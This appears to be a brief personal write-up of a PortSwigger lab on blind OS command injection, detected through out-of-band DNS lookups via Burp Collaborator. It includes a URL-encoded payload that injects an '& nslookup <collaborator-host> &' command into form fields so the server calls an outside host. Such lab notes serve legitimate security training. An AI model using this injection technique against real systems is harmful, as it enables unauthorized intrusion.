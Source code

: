 ```yaml
---
tags: ["OAST", "nslookup"]
image: "img/Portswigger/command-injection.png"
---
```


--> In this lab the server is working asynchronously that's why output redirecion or blind command injection will not work but we can make sure the server is vulnerable with the `nslookup` in linux which is command for DNS lookup.

so i tried this payload in every field:

```bash
+%26+nslookup+1kmo91qqog19ve8a2emjskppjgp6dv.burpcollaborator.net+%26
#Which gets decoded into
 & nslookup myCollaboratorServer.burpollaborator.net &
```

--> TO get your burp collaborator server goto `burp(on left top)->collaborator client->click copy to clipboard`

And to get the request instantly click `poll now`

and i got the request and solved the lab!

![](Attachments/Pastedimage20220120123719.png)
